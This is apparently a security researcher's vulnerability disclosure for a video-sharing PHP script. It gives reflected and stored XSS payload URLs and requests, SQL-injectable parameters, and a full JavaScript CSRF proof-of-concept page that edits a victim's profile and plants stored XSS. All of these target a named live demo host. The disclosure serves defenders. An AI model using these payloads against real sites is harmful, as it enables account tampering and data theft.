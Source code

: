### Readymade Video Sharing Script- the lastest version - SQL Injection/Reflect-XSS/Stored-XSS/CSRF

#### ADLab of Venustech

Well,  when I pentest the official demo site of Readymade Video Sharing Script, I found some vulnerabilities here.


#### XSS:

##### Reflect-XSS

```
http://www.smsemailmarketing.in/demo/videosharing/search_video.php?search=123%27123%22123%3E123%3Cimg%20src=x%20onerror=prompt(/xss/)%3E123%3C123%27%22
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Readymade-Video-Sharing-Script/xss1.png)

```
http://www.smsemailmarketing.in/demo/videosharing/viewsubs.php?chnlid=123%27123%22123%3E123%3Cimg%20src=x%20onerror=prompt(/xss3/)%3E123%3C123%27%22
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Readymade-Video-Sharing-Script/xss2.png)


##### Stored-XSS 


```
http://www.smsemailmarketing.in/demo/videosharing/user-profile-edit.php
```

POST parameters:

```
------WebKitFormBoundaryb1Z9ur8DUtIWkCxA
Content-Disposition: form-data; name="fname"

lzx'"><svg/onload=alert(/xss2/)><'"
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Readymade-Video-Sharing-Script/xss3.png)


#### SQL Injection:

##### sqli1
```
http://www.smsemailmarketing.in/demo/videosharing/search_video.php?search=123
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Readymade-Video-Sharing-Script/sqli1.png)

##### sqli2

```
http://www.smsemailmarketing.in/demo/videosharing/viewsubs.php?chnlid=321
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Readymade-Video-Sharing-Script/sqli2.png)


You can see,  we can obtain the current data user or more sensitive data now!


#### CSRF

We can use csrf attack to cheat the user to change sensitive settings in the user panel, even add stored-xss content into it.

poc:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/www.smsemailmarketing.in\/demo\/videosharing\/user-profile-edit.php", true);
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=----WebKitFormBoundaryb1Z9ur8DUtIWkCxA");
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/webp,image\/apng,*\/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.9");
        xhr.withCredentials = true;
        var body = "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA\r\n" + 
          "Content-Disposition: form-data; name=\"fname\"\r\n" + 
          "\r\n" + 
          "lzx\'\"\x3e\x3csvg/onload=alert(/xss2/)\x3e\x3c\'\"\r\n" + 
          "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA\r\n" + 
          "Content-Disposition: form-data; name=\"lname\"\r\n" + 
          "\r\n" + 
          "lzx\r\n" + 
          "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA\r\n" + 
          "Content-Disposition: form-data; name=\"mobile\"\r\n" + 
          "\r\n" + 
          "1311144111\r\n" + 
          "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA\r\n" + 
          "Content-Disposition: form-data; name=\"country\"\r\n" + 
          "\r\n" + 
          "17\r\n" + 
          "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA\r\n" + 
          "Content-Disposition: form-data; name=\"zip_code\"\r\n" + 
          "\r\n" + 
          "123123\r\n" + 
          "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA\r\n" + 
          "Content-Disposition: form-data; name=\"addr1\"\r\n" + 
          "\r\n" + 
          "test123\r\n" + 
          "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA\r\n" + 
          "Content-Disposition: form-data; name=\"addr2\"\r\n" + 
          "\r\n" + 
          "test123\r\n" + 
          "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA\r\n" + 
          "Content-Disposition: form-data; name=\"profile_image\"; filename=\"\"\r\n" + 
          "Content-Type: application/octet-stream\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA\r\n" + 
          "Content-Disposition: form-data; name=\"submit\"\r\n" + 
          "\r\n" + 
          "Save Profile\r\n" + 
          "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>

```

This vulnerability does not need evil attacker to login into the user panel.

